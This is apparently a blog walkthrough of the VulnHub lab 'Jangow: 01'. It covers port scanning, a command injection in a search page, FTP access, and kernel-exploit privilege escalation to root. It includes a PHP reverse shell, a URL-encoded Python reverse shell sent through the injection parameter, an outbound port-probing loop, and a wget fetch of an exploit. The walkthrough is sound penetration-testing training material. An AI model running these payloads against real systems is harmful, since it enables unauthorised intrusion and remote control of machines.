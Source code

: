 ```yaml
---
title: name
date: 2025-04- 14:00:00 +0200
categories: 
tags: 
toc: true
comments: true
image: ./assets/img/attachments/jangow.png
imageNameKey: jangow
---
```

Yo! Back again with another VulnHub walkthrough — this time we’re diving into _Jangow: 01_. Let’s get rootin’! 💥
This is my second writeup 2/1000
## Recon

![w](/assets/img/attachments/jangow-1.png)

First step was making sure that the machine is reachable, lets START.
Now, As always we'll run an Nmap scan on all ports to see which services are exposed — this will help us decide where to dig deeper.

`sudo masscan -p1-65535 192.168.56.118`

![w](/assets/img/attachments/jangow-2.png)

Then we will use nmap to do full scan on those two open ports

`nmap 192.168.56.118 -Pn -sV -sC -p80,21`
![w](/assets/img/attachments/jangow-3.png)
![w](/assets/img/attachments/jangow-4.png)
![w](/assets/img/attachments/jangow-5.png)

This how the website looked like, after taking a deep look on the functionality of this website and when i clicked on buscar i found this 
## Exploiting vulnerability

![w](/assets/img/attachments/jangow-6.png)
![w](/assets/img/attachments/jangow-7.png)

Command Injection!

![w](/assets/img/attachments/jangow-8.png)

After some investigation and enumeration, I discovered a file that initially appeared to contain the user's password. However, it didn’t work for login, so I assumed it might just be the user flag instead.
I then attempted to gain a reverse shell by setting up a listener on my machine, but none of the payloads I tried were successful. 
So, I decided to go back to discover more files on the machine. I ran web content discovery from the beginning using

`ffuf -u http://192.168.56.118/FUZZ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt -recursion -recursion-depth 2
`
![w](/assets/img/attachments/jangow-9.png)

I couldn't access the content of the file directly, but since there is a command injection vulnerability, I plan to open the file from there.
Got nothing from the browser (I think the file is being rendered)

![w](/assets/img/attachments/jangow-10.png)
![w](/assets/img/attachments/jangow-11.png)

But curl got it, now i will try to gain access with password using ftp (the second open port)
## Initial Access

![w](/assets/img/attachments/jangow-12.png)
I tried both usernames and i logged in with jangow01 !
Since I have access to FTP, I will try to get a shell to proceed to the next step. To do this, I attempted to see if I can upload files to the directory I'm currently in.

![w](/assets/img/attachments/jangow-13.png)

I couldn't, so i thought of changing the directory I'm currently in to /home/jangow01

![w](/assets/img/attachments/jangow-14.png)

And it was uploaded successfully!

```php
<?php
$sock=fsockopen("192.168.246.128",4444);
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```
I tried to upload this shell and trigger it buy running curl command

`curl "http://192.168.56.118/site/busque.php?buscar=php+/home/jangow01/shell.php"`

But it didn't work, I did troubleshooting for the file i uploaded before
![w](/assets/img/attachments/jangow-15.png)

And couldn't view its content

![w](/assets/img/attachments/jangow-16.png)

Maybe that’s why PHP couldn’t open the file. To solve this, I granted it execute permission.

`chmod 755 /home/jangow01/shell.php`

![w](/assets/img/attachments/jangow-17.png)

Even though, I didn't got the shell, I tried several methods but couldn't get it. 
I tested if i opened http server on my machine would the target machine send any requests to me

`http://192.168.56.118/site/busque.php?buscar=wget+http:/192.168.246.128:8000/hello.txt`

I didn't receive any connection, so I believe there's a firewall blocking outgoing connections — which is likely why I wasn't able to get a reverse shell. Now, I need to identify which ports are not blocked. I used the following script to test that:
```python
# listener.py

import socket

import threading

  

ports = [21, 22, 23, 25, 53, 80, 110, 139, 143, 161, 443, 587, 993, 995, 3306, 3389]

  

def handle_conn(port):

    sock = socket.socket()

    sock.bind(("0.0.0.0", port))

    sock.listen(1)

    print(f"[+] Listening on port {port}")

    conn, addr = sock.accept()

    print(f"[!] Connection received on port {port} from {addr}")

    conn.close()

    sock.close()

  

for port in ports:

    threading.Thread(target=handle_conn, args=(port,), daemon=True).start()

  

input("Press Enter to exit...\n")
```

The script uses threading to start listeners on the most commonly guessed outbound ports. On the vulnerable parameter, we initiate these connections using `telnet` with the following payload:

`http://192.168.56.118/site/busque.php?buscar=echo%20%27QUIT%27%20|%20for%20i%20in%20$(seq%201%201024);%20do%20echo%20%22Porta%20$i%20==%3E%22;%20timeout%20--signal=9%202%20telnet%20192.168.56.1%20$i;echo%20%22Port%20$i%20%3C==%22;%20done;`

decoded:
`http://192.168.56.118/site/busque.php?buscar=echo 'QUIT' | for i in $(seq 1 1024); do echo "Porta $i ==>"; timeout --signal=9 2 telnet 192.168.56.1 $i; echo "Port $i <=="; done;`

and then we got this!

![w](/assets/img/attachments/jangow-18.png)

Which tell us that port 443 isn't blocked for outgoing traffic by the firewall, by running 
`which python3`
![w](/assets/img/attachments/jangow-19.png)

I confirmed python3 is installed, next i used this reverse shell command

`http://192.168.56.118/site/busque.php?buscar=/usr/bin/python3%20-c%20%27import%20socket;%20import%20subprocess;%20import%20os;%20s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);%20s.connect((%22192.168.56.1%22,443));%20os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);%20subprocess.call([%22/bin/bash%22,%20%22-i%22])%27`

![w](/assets/img/attachments/jangow-20.png)

And voilà! We got a connection. 🎉
## Privilege Escalation
we’ll start gathering information about the system itself, beginning with displaying detailed system information. But while doing this manually i will run linpeas at the background

`uname -a `

![w](/assets/img/attachments/jangow-21.png)

![w](/assets/img/attachments/jangow-22.png)

Upon researching the version, a known vulnerability was identified that could potentially be exploited.

![w](/assets/img/attachments/jangow-23.png)

linpeas output too

![w](/assets/img/attachments/jangow-24.png)

Now i will upload the exploit to the machine using the same python server.

`http://192.168.56.118/site/busque.php?buscar=wget+http://ip:443/47170.c`

![w](/assets/img/attachments/jangow-25.png)

After making sure that gcc is installed, will compile the exploit

`gcc 47170.c -o exploit`

![w](/assets/img/attachments/jangow-26.png)

I moved to /tmp since i didn't have the write permission on /site directory

![w](/assets/img/attachments/jangow-27.png)

It's Ok 😢, we will try another exploit

![w](/assets/img/attachments/jangow-28.png)

Will go with this one, 

![w](/assets/img/attachments/jangow-29.png)

![w](/assets/img/attachments/jangow-30.png)

And Finallyyy!! rooted!

![w](/assets/img/attachments/jangow-31.png)

Rooted it. Another one bites the dust. 🏴‍☠️ see u soon!